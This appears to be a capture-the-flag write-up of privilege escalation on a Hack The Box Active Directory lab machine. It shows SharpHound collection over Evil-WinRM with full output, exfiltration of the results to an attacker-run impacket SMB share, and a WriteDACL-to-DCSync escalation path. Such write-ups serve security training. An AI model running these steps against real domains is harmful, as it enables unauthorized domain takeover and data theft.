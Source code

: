 # Privilage Escalation
- run SharpHound to collect data for BloodHound upload it with
```

*Evil-WinRM* PS C:\Users\svc-alfresco\appdata\local\temp> upload SharpHound.exe
                                        
Info: Uploading /home/kali/BloodHound/Collectors/SharpHound.exe to C:\Users\svc-alfresco\appdata\local\temp\SharpHound.exe
                                        
Data: 1395368 bytes of 1395368 bytes copied
                                        
Info: Upload successful!
*Evil-WinRM* PS C:\Users\svc-alfresco\appdata\local\temp> ./SharpHound.exe -c all
2023-08-05T17:42:03.2895403-07:00|INFORMATION|This version of SharpHound is compatible with the 4.3.1 Release of BloodHound
2023-08-05T17:42:03.4770686-07:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2023-08-05T17:42:03.4926804-07:00|INFORMATION|Initializing SharpHound at 5:42 PM on 8/5/2023
2023-08-05T17:42:03.8832903-07:00|INFORMATION|[CommonLib LDAPUtils]Found usable Domain Controller for htb.local : FOREST.htb.local
2023-08-05T17:42:04.0395347-07:00|INFORMATION|Flags: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2023-08-05T17:42:04.3520382-07:00|INFORMATION|Beginning LDAP search for htb.local
2023-08-05T17:42:04.4301627-07:00|INFORMATION|Producer has finished, closing LDAP channel
2023-08-05T17:42:04.4301627-07:00|INFORMATION|LDAP channel closed, waiting for consumers
2023-08-05T17:42:34.5708606-07:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 41 MB RAM
2023-08-05T17:42:47.2427517-07:00|INFORMATION|Consumers finished, closing output channel
Closing writers
2023-08-05T17:42:47.2896313-07:00|INFORMATION|Output channel closed, waiting for output task to complete
2023-08-05T17:42:47.4458809-07:00|INFORMATION|Status: 161 objects finished (+161 3.744186)/s -- Using 48 MB RAM
2023-08-05T17:42:47.4458809-07:00|INFORMATION|Enumeration finished in 00:00:43.1046565
2023-08-05T17:42:47.5708801-07:00|INFORMATION|Saving cache with stats: 118 ID to type mappings.
 118 name to SID mappings.
 0 machine sid mappings.
 2 sid to domain mappings.
 0 global catalog mappings.
2023-08-05T17:42:47.5865083-07:00|INFORMATION|SharpHound Enumeration Completed at 5:42 PM on 8/5/2023! Happy Graphing!
```
- use smbserver.py to exfil the results
```
impacket-smbserver share . -smb2support -username df -password df
```
- now on the forest
```
net use \\10.10.16.5\share /u:df df
copy 20230805174246_BloodHound.zip \\10.10.16.5\share\
```
- There should be JSON files outputted in the folder, which can be uploaded to the bloodhound GUI. Search for the svc-alfresco user and mark it as owned. - Double clicking on the node should display it's properties on the right. It's found that svc-alfresco is a member of nine groups
through nested membership. Click on 9 to reveal the membership graph.
- found Account Operators , which is a privileged AD group
- members of the Account Operators group are allowed create and modify users and add them to non-protected groups. Let's note this and look at the paths to Domain Admins. Click on Queries and select Shortest Path to High Value targets
- One of the paths shows that the Exchange Windows Permissions group has WriteDacl privileges on the Domain
- The WriteDACL privilege gives a user the ability to add ACLs to an object
- This means that we can add a user to this group and give them DCSync privileges